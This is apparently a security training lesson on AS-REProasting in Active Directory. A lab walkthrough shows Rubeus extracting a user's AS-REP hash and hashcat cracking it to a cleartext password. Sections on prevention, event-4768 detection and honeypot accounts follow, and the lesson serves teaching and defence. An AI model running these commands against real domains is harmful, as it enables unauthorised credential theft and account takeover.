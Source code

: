 
## Description

The `AS-REProasting` attack is similar to the `Kerberoasting` attack; we can obtain crackable hashes for user accounts that have the property `Do not require Kerberos preauthentication` enabled. The success of this attack depends on the strength of the user account password that we will crack.

---

## Attack

To obtain crackable hashes, we can use `Rubeus` again. However, this time, we will use the `asreproast` action. If we don't specify a name, `Rubeus` will extract hashes for each user that has `Kerberos preauthentication` not required:

  AS-REProasting

```powershell-session
PS C:\Users\bob\Downloads> .\Rubeus.exe asreproast /outfile:asrep.txt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1


[*] Action: AS-REP roasting

[*] Target Domain          : eagle.local

[*] Searching path 'LDAP://DC2.eagle.local/DC=eagle,DC=local' for '(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))'
[*] SamAccountName         : anni
[*] DistinguishedName      : CN=anni,OU=EagleUsers,DC=eagle,DC=local
[*] Using domain controller: DC2.eagle.local (172.16.18.4)
[*] Building AS-REQ (w/o preauth) for: 'eagle.local\anni'
[+] AS-REQ w/o preauth successful!
[*] Hash written to C:\Users\bob\Downloads\asrep.txt

[*] Roasted hashes written to : C:\Users\bob\Downloads\asrep.txt
```

![Roasted hashes](https://academy.hackthebox.com/storage/modules/176/A2/AsrepReq.png)

Once `Rubeus` obtains the hash for the user Anni (the only one in the playground environment with preauthentication not required), we will move the output text file to a linux attacking machine.

For `hashcat` to be able to recognize the hash, we need to edit it by adding `23$` after `$krb5asrep$`:

  AS-REProasting

```shell-session
$krb5asrep$23$anni@eagle.local:1b912b858c4551c0013dbe81ff0f01d7$c64803358a43d05383e9e01374e8f2b2c92f9d6c669cdc4a1b9c1ed684c7857c965b8e44a285bc0e2f1bc248159aa7448494de4c1f997382518278e375a7a4960153e13dae1cd28d05b7f2377a038062f8e751c1621828b100417f50ce617278747d9af35581e38c381bb0a3ff246912def5dd2d53f875f0a64c46349fdf3d7ed0d8ff5a08f2b78d83a97865a3ea2f873be57f13b4016331eef74e827a17846cb49ccf982e31460ab25c017fd44d46cd8f545db00b6578150a4c59150fbec18f0a2472b18c5123c34e661cc8b52dfee9c93dd86e0afa66524994b04c5456c1e71ccbd2183ba0c43d2550
```

We can now use `hashcat` with the hash-mode (option -m) `18200` for `AS-REPRoastable` hashes. We also pass a dictionary file with passwords (the file `passwords.txt`) and save the output of any successfully cracked tickets to the file `asrepcracked.txt`:

  AS-REProasting

```shell-session
LeDaav@htb[/htb]$ sudo hashcat -m 18200 -a 0 asrep.txt passwords.txt --outfile asrepcrack.txt --force

hashcat (v6.2.5) starting

<SNIP>

Dictionary cache hit:
* Filename..: passwords.txt
* Passwords.: 10002
* Bytes.....: 76525
* Keyspace..: 10002
* Runtime...: 0 secs

Approaching final keyspace - workload adjusted.           

                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$anni@eagle.local:1b912b858c4551c0013d...3d2550
Time.Started.....: Thu Dec 8 06:08:47 2022, (0 secs)
Time.Estimated...: Thu Dec 8 06:08:47 2022, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (passwords.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   130.2 kH/s (0.65ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 10002/10002 (100.00%)
Rejected.........: 0/10002 (0.00%)
Restore.Point....: 9216/10002 (92.14%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 20041985 -> brady
Hardware.Mon.#1..: Util: 26%

Started: Thu Dec 8 06:08:11 2022
Stopped: Thu Dec 8 06:08:49 2022
```

![Roasted hashes](https://academy.hackthebox.com/storage/modules/176/A2/AsrepReqCrack.png)

Once `hashcat` cracks the password, we can print the contents of the output file to obtain the cleartext password `Slavi123`:

  AS-REProasting

```shell-session
LeDaav@htb[/htb]$ sudo cat asrepcrack.txt

$krb5asrep$23$anni@eagle.local:1b912b858c4551c0013dbe81ff0f01d7$c64803358a43d05383e9e01374e8f2b2c92f9d6c669cdc4a1b9c1ed684c7857c965b8e44a285bc0e2f1bc248159aa7448494de4c1f997382518278e375a7a4960153e13dae1cd28d05b7f2377a038062f8e751c1621828b100417f50ce617278747d9af35581e38c381bb0a3ff246912def5dd2d53f875f0a64c46349fdf3d7ed0d8ff5a08f2b78d83a97865a3ea2f873be57f13b4016331eef74e827a17846cb49ccf982e31460ab25c017fd44d46cd8f545db00b6578150a4c59150fbec18f0a2472b18c5123c34e661cc8b52dfee9c93dd86e0afa66524994b04c5456c1e71ccbd2183ba0c43d2550:Slavi123
```

![Roasted hashes](https://academy.hackthebox.com/storage/modules/176/A2/AsrepReqCracked.png)

---

## Prevention

As mentioned before, the success of this attack depends on the strength of the password of users with `Do not require Kerberos preauthentication` configured.

First and foremost, we should only use this property if needed; a good practice is to review accounts quarterly to ensure that we have not assigned this property. Because this property is often found with some regular user accounts, they tend to have easier-to-crack passwords than service accounts with SPNs (those from Kerberoast). Therefore, for users requiring this configured, we should assign a separate password policy, which requires at least 20 characters to thwart cracking attempts.

---

## Detection

When we executed Rubeus, an Event with ID `4768` was generated, signaling that a `Kerberos Authentication ticket` was generated:

![Roasted hashes](https://academy.hackthebox.com/storage/modules/176/A2/AsrepDetect.png)

The caveat is that AD generates this event for every user that authenticates with Kerberos to any device; therefore, the presence of this event is very abundant. However, it is possible to know where the user authenticated from, which we can then use to correlate known good logins against potential malicious hash extractions. It may be hard to inspect specific IP addresses, especially if a user moves around office locations. However, it is possible to scrutinize the particular VLAN and alert on anything outside it.

---

## Honeypot

For this attack, a `honeypot user` is an excellent detection option to configure in AD environments; this must be a user with no real use/need in the environment, such that no login attempts are performed regularly. Therefore, any attempt(s) to perform a login for this account is likely malicious and requires inspection.

However, suppose the honeypot user is the only account with `Kerberos Pre-Authentication not required`. In that case, there might be better detection methods, as it would be very obvious for advanced threat actors that it is a honeypot user, resulting in them avoiding interactions with it. (I did previously hear from an organization that needed one of these accounts (application related) that the 'security through obscurity' behind having only one of these accounts may save them, as attackers will avoid going after it thinking it is a honeypot user. While it may be true in some instances, we should not let a glimpse of hope dictate the security state of the environment.)

To make a good honeypot user, we should ensure the following:

- The account must be a relatively old user, ideally one that has become bogus (advanced threat actors will not request tickets for new accounts because they likely have strong passwords and the possibility of being a honeypot user).
- For a service account user, the password should ideally be over two years old. For regular users, maintain the password so it does not become older than one year.
- The account must have logins after the day the password was changed; otherwise, it becomes self-evident if the last password change day is the same as the previous login.
- The account must have some privileges assigned to it; otherwise, it won't be interesting to try to crack its password's hash.

If we go back to our playground environment and configure the user 'svc-iam' (presumably an old IAM account leftover) with the recommendations above, then any request to obtain a TGT for that account should be alerted on. The event received would look like this:

![Roasted hashes](https://academy.hackthebox.com/storage/modules/176/A2/honeypot2.png)
